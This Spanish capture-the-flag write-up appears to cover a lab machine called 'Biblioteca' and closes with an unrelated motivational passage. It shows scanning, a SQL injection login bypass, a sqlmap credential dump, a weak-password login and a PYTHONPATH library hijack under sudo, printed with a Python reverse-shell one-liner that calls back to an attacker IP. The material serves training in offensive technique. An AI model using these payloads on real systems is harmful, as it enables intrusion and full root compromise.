








# Biblioteca

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado dos puertos abiertos en el sistema: el puerto `22` para `SSH`, el `8000` para `HTTP`.

<figure><figcaption></figcaption></figure>

Enumeramos los directorios que tenemos disponibles en el puerto `HTTP`;

```
dirsearch -u http:<ip>:8000 
```

<figure><figcaption></figcaption></figure>

Solo encontramos dos directorios, así que accedemos al servicio web y creamos un nuevo usuario y contraseña para explorar el contenido de la página. Sin embargo, no encontramos nada más que un mensaje que muestra nuestro nombre de usuario y nada más.

<figure><figcaption></figcaption></figure>

Aquí consideramos la posibilidad de que se tratara de un ataque de `XSS`, así que intentamos inyectar varios payloads, pero no tuvimos éxito, ya que el sistema nos devolvía el siguiente mensaje.

```
Username must contain only characters and numbers !
```

<figure><figcaption></figcaption></figure>

Se evidenció que podíamos utilizar `sqlmap` para realizar una inyección y extraer las credenciales. Al crear el usuario `hack`, pudimos acceder con la contraseña `'OR 1=1 --`. Guardamos el ítem de inicio de sesión de `Burp Suite` como `sql.req` haciendo clic derecho y seleccionando guardar ítem. Con el siguiente comando, podremos recuperar usuarios y contraseñas.


<figure><figcaption></figcaption></figure>

## SQLMAP

```
sqlmap -r sql.req --dbs --dump
```

* `--dbs` Enumera bases de datos DBMS.
* `--dump` Volcado de entradas de tabla de base de datos DBMS
* `-r REQUESTFILE` Carga un request de HTTP como archivo    

<figure><figcaption></figcaption></figure>

Como podemos ver, se nos presentan dos usuarios: el que creamos anteriormente y otro que pertenece al sistema. Aunque podemos acceder con este último, no encontramos nada interesante en la página. Sin embargo, también tenemos la opción de ingresar al servidor a través de `SSH` utilizando el usuario que se nos proporciona.

<figure><figcaption></figcaption></figure>

# SSH /smokey

Al realizar la enumeración con `linpea.sh` y `pspy64` para este usuario, no logramos un escalado de privilegios sencillo; solo encontramos escalados que no conducían a ninguna parte del sistema o en si no funcionaba. Sin embargo, descubrimos una de las técnicas más simples y fundamentales que podemos aplicar en un laboratorio: utilizar el mismo nombre de usuario como contraseña. Así, pudimos acceder al otro usuario: `hazel:hazel`.

<figure><figcaption></figcaption></figure>

# SSH /hazel

Realizamos la enumeración y observamos que, al ejecutar `sudo -l`, tenemos permisos de root para ejecutar el archivo:

```
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py

```

Dentro del archivo `hasher.py`, podemos encontrar el siguiente código.

```
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()


```

Observamos que importa la biblioteca `hashlib`. Podemos investigar esta biblioteca y modificarla para que nos proporcione una `reverse shell`.

```
find / -name hashlib.py 2>dev/null
```

```
/snap/core20/1361/usr/lib/python3.8/hashlib.py
/snap/core20/1270/usr/lib/python3.8/hashlib.py
/snap/core18/2284/usr/lib/python3.6/hashlib.py
/snap/core18/2855/usr/lib/python3.6/hashlib.py
/usr/lib/python3/dist-packages/landscape/lib/hashlib.py
/usr/lib/python3/dist-packages/nacl/hashlib.py
/usr/lib/python3.8/hashlib.py
```
## hashlib.py

Copiamos la biblioteca `/usr/lib/python3.8/hashlib.py` al directorio `/tmp` para modificarla de manera segura y poder enviarla utilizando `PYTHONPATH`.


```
cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py
```

```
chmod +x hashlib.py 
nano hashlib.py
```

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.219",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

<figure><figcaption></figcaption></figure>

# SSH /root

De esta manera, logramos obtener acceso como `root` en la máquina del laboratorio.

<figure><figcaption></figcaption></figure>

> Muchas personas pasan toda su vida preocupándose por otros, tratando de agradar, buscando aprobación y gastando energía con personas que solo consumen pero nunca retribuyen. ¿Ya te has puesto a pensar en el costo de todo, en cuánto tiempo te quitan, te retrasan y te desgastan? La verdad es que la mayoría de esas personas no les importa su futuro, no se preocupan si estás bien o si has logrado las cosas que quieres, o si estás viviendo la vida que sueñas. 
> 
> Siguen con la vida cuidando sus propios intereses, mientras que tú te quedas estancado allí, en este intento de agradar a todo el mundo. Solo sigues gastando tu tiempo con alguien que realmente no se preocupa por ti y terminarás sin energía para cuidar lo que realmente importa: tu evolución, tus sueños y tu paz. 
> 
> Necesitas aprender a poner límites y priorizar lo que realmente marca la diferencia en tu vida. Entonces, deja de desgastarte con alguien que no se lo merece, concéntrate en tu viaje y tu crecimiento. Quien realmente se preocupa estará a tu lado sin que tengas que sacrificarte por ello.
> 
> <figure><figcaption></figcaption></figure>